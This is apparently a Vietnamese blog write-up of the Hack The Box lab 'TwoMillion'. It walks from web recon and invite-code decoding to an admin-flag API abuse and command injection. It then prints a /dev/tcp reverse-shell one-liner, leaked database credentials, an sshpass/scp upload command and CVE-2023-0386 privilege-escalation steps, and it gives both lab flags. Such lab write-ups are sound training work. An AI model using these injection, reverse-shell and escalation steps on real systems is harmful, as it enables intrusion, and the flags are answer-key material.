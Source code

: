 ```yaml
---
title: HTB TwoMillion
published: 2025-08-02
tags: [Markdown, Blogging, Demo]
category: Writeups
author: Trohan0x00
draft: false
image: "/src/content/posts/assets/twomillion.png"
---
```

# HTB Labs: Two Million
## I. User Flag
Mình được cấp 1 IP tương tự các machine khác, tiến hành truy cập và scan trước bằng nmap 
![image](https://hackmd.io/_uploads/rJQgmW3Bxg.png)
Thấy được chỉ có mỗi 2 services là `ssh` và `nginx` mình sẽ tiến hành recon cả hai
Mình sẽ tiến hành recon web server trước vì hiện tại chưa có thông tin về user của ssh
![image](https://hackmd.io/_uploads/SkiBmZ2Sxx.png)
Đây có lẽ là một trang intro về HTB, hoặc gì đó tương tự vậy. Để biết rõ hơn về directory của web này mình sẽ scan dir thử xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rJXtpK3Dlx.png)
Mình thấy một vài dir thú vị, mình sẽ thử `/register` xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rkEhaK2vgl.png)
Ta thấy đây là một trang đăng ký bình thường, nhưng để đăng ký được thì ta cần có một `invite code`, đây là một trường input nhưng mình không thể nhập được. View source mình thấy một điều thú vị
![image](https://hackmd.io/_uploads/HJ6rAKnPee.png)
Đoạn js này dùng để lấy mã `invite code` từ `localStorage` vầ ở trên ta có thể thấy thêm một file `inviteapi.min.js` tiến hành vào kiểm tra thì có vẽ như đã bị `obfuscated`
```javascript 
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Đây là dạng `eval obfuscation` để tránh mất thời gian mình sẽ dùng [beautifer](https://beautifier.io) để tiến hành `deobs`
```javascript 
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
Kết quả trả về ta có 2 `function` một là dùng để check `invite code` và cái còn lại là tạo ra `invite code`. Nói về `function` `makeInviteCode()` thì ta có thể thấy rằng nó gửi một `post req` đến `/api/v1/invite/how/to/generate` để lấy mã `invite code` từ đây và tiến hành thiết lập mã mời. Có lẽ endpoint này có thể khai thác thêm gì đó. Mình sẽ tiến hành post một `req` đến `API` để xem thử có dữ liệu gì được trả về không
![image](https://hackmd.io/_uploads/SJuUl62wee.png)
Như ta thấy, nó trả về nội dung như này, và `data` đã bị encode nhưng giờ vẫn chưa biết thuật toán dùng để encode là gì. Nhưng bên dưới lại để `entype: ROT13` nên mình sẽ decode với `RÓT13` xem
![image](https://hackmd.io/_uploads/HJJJbahvle.png)
Ta nhận được thông điệp là hãy dùng `post req` đến endpoint trên 
![image](https://hackmd.io/_uploads/r1rMZpnwle.png)
Ta tiếp tục nhận lại `data` như trên, nhưng về `data` này có vẻ như dễ dàng nhận biết được encode bằng `B64`
![image](https://hackmd.io/_uploads/SyEIWT3vlx.png)
Ta nhận lại một đoạn mã, có vẽ như chính là `invite code` nếu như không lầm thì đây chính là endpoint sẽ cung cấp `invite code` cho phía `function` ở đoạn code js truớc. Giờ mình sẽ dùng `invite code` này để reg một account
![image](https://hackmd.io/_uploads/HJDfzTnDlg.png)
![image](https://hackmd.io/_uploads/rJofG63vlg.png)
Sau khi reg thành công, ta đã vào được trang chính như trên. OK Khi vào được trang này và đã có thêm cookie. Mình sẽ tiến hành để scan dir thêm một lần nữa để xem có thể phát hiện thêm gì mới không
![image](https://hackmd.io/_uploads/BJUulxpwxe.png)
Mình thấy có thêm một dir là `/api` trả code 200 nên quyết định check thử 
![image](https://hackmd.io/_uploads/HJgAxeTvxl.png)
Ta biết thêm một dir là `/api/v1` 
![image](https://hackmd.io/_uploads/rJt-bxaPge.png)
Đây là một list `API` của version và được phân cấp theo từng người dùng. Ta có thể thấy được `/api/v1/admin` và `/api/v1/user` được chia theo từng cách call với từng method như `GET`, `POST`. Có lẽ đây là nơi mà các lệnh call `API` ở file js vừa rồi mình quan sát được nhưng không thể truy cập vào xem khi chưa có user. Có lẽ sẽ có nhiều thông tin để khai thác
Sau một lúc truy vấn thì mình phát hiện được ta có thể dùng `PUT req` đến `/api/v1/admin/settings/update`, sau khi gửi `req` đến thì ta nhận được các thông báo lỗi có thể giúp ích được rất nhiều, cụ thể
![image](https://hackmd.io/_uploads/H1qAyyCDxe.png)
Cụ thể ở `req` đầu ta nhận được `res` báo về do chưa có `content-type` hợp lệ, do `data` trả về dưới dạng json nên mình nghĩ `data` gửi hợp lệ cũng sẽ là json 
![image](https://hackmd.io/_uploads/ryeMxkCPle.png)
Sửa xong tiếp tục gửi `req` thì nhận được là thiếu param email mình lập tức thêm email vào `req` để gửi đi . Tiếp đến nó lại yêu cầu có param `is_admin`. Mình nghĩ đây là một param nhận `boolen_value` nên mình sẽ thử với `is_admin:1`
![image](https://hackmd.io/_uploads/rkl6xyADlg.png)
Kết quả ta nhận được `res` như này. Giờ có lẽ ta đã hoàn toàn có thể cấp quyền admin cho user của ta. Để test thử xem thì mình sẽ call một API admin khác
![image](https://hackmd.io/_uploads/H1JibJCwlg.png)
Hoàn toàn call thành công. Và sau khi call với `/api/v1/admin/auth` thì `res` trả về là true chứng tỏ việc leo quyền user đã thành công và giờ ta đã là `admin`
![image](https://hackmd.io/_uploads/HJfAlgCPge.png)
Tiếp theo là gửi `Post req` đến `/api/v1/admin/vpn/generate` để xem có thể khai thác gì từ `API` cuối cùng này không. Thì ta có thể thấy được nó yêu cầu thêm param là `username`
![image](https://hackmd.io/_uploads/SknQWeCvxg.png)
Và `API` này nhận bát kỳ giá trị nào của param `username`, do đó có khả năng sẽ bị `Command Injection`. Ta sẽ tiến hành thử detect
![image](https://hackmd.io/_uploads/BkWczWCDle.png)
Chỉ với việc inject đơn giản, ta đã có thể detect được lỗ hỏng. Để dễ dàng khai thác, ta cần đưa reverse shell vào để lấy shell thuận lợi cho việc khai thác hơn
```shell!
sh -i >& /dev/tcp/10.10.10.10/4242 0>&1
```
Mình sẽ dùng `bash`, sau đó chỉ cần inject vào là ta đẫ lấy được `reverse shell`.
![image](https://hackmd.io/_uploads/B1PE5GCvgg.png)
Ta thấy dễ dàng lấy được `reverse shell`, và user hiện tại là `www-data`. Không phải `admin` nên các quyền hạn hiện tại còn hạn chế. Sau một xem thử thì mình tìm được một file `.env`
![image](https://hackmd.io/_uploads/r17FO4APgg.png)
Khi cat ra ta được một credential của `admin`. Mình nghĩ đây có lẽ là credential của admin trong server `ssh`. Còn nhớ khi ta scan IP thì có 2 services 1 là `web server` 2 là `ssh`
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Giờ mình sẽ thử login với credential này xem 
![image](https://hackmd.io/_uploads/H1bWt40Dxx.png)
Ta đã thành công vào được `ssh server`. `ls` ra thì có file `user.txt`. Đây chính là file chứa `user flag` của ta, ban đầu khi vọc ở `reverse shell`, mình thấy được một dir là `/home/admin/user.txt` nhưng lúc đó lại không có quyền để đọc file. Giờ thì đã thành công lấy được `user flag`

> 79f5d11adcf863aadc6d588a6fbbe4a6

## II. Root Flag
Sau khi tìm được `user flag`, mình bắt đầu đi tìm `root flag` nhưng loay hoay mãi vẫn chưa tìm được thêm thông tin gì về lỗ hỏng để leo quyền và thông tin liên quan. Có check hint thì mình cần kiểm tra thêm về nơi lưu trữ các mail của `Linux system`. Sau một lúc search thì thấy được các mail được gửi đến sẽ được lưu ở `/var/mail`. Đi vào để kiểm tra thì nhận được một bản email gửi đến `admin` như sau
```mail
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Email này là một thông điệp nội bộ, gửi từ một nhân viên tên là `ch4p` đến `admin` và cc cho `g0blin`, với nội dung liên quan đến việc vá lỗi bảo mật hệ thống.
Tìm hiểu về `CVE-2023-0386` này thì lỗ hổng này cho phép một người dùng thông thường có thể chiếm quyền `root `bằng cách lợi dụng cơ chế sao chép file (copy-up) của `OverlayFS`. Cụ thể, khi một file có quyền `setuid` được sao chép từ một lớp file hệ thống ảo (FUSE) lên lớp ghi (upper layer), `OverlayFS` đã không loại bỏ quyền `setuid` này, cho phép kẻ tấn công thực thi file với quyền root.
Sau một lúc tìm kiếm thì mình tìm được `POC` và cũng như là payload exploit của `CVE` này [ở đây](https://github.com/sxlmnwb/CVE-2023-0386)
OK giờ ta đã có payload exploit. Tiếp đến là dựng server đẻ upload zip này lên máy victim. Mình sẽ dựng `Python server` để upload
![image](https://hackmd.io/_uploads/rkwLZhldee.png)
Có vẻ như ta không có quyền uplaod ở cả user thường và admin ở phía ssh. Giờ ta cần phải upload bằng `scp`

```bash!
sshpass -p SuperDuperPass123 scp CVE-2023-0386-master.zip admin@10.10.11.221:/tmp/         
```
Ta sẽ upload thông qua credential ssh mà ta đã có và lưu ở tmp. Cách khai thác thì tiến hành mở 2 terminal do đây là `SSH Server` nên mình sẽ start 2 sessions. Ở session 1 ta sẽ run `./fuse ./ovlcap/lower ./gc`
Và tiếp theo ở session 2 là `./exp`
![image](https://hackmd.io/_uploads/SJQHiyZOeg.png)
Như ta đã thấy, giờ hoàn toàn đã leo quyền thành công. Do đây là một bài labs để khai thác nên mình sẽ chưa tìm hiểu kỹ về `CVE` này ở blog này nên chỉ cần dùng payload exploit đã công bố là được giờ ta chỉ cần đọc root flag ở `/root/root.txt`
> 0f080a26c0360745340c0b6f5b3a407b



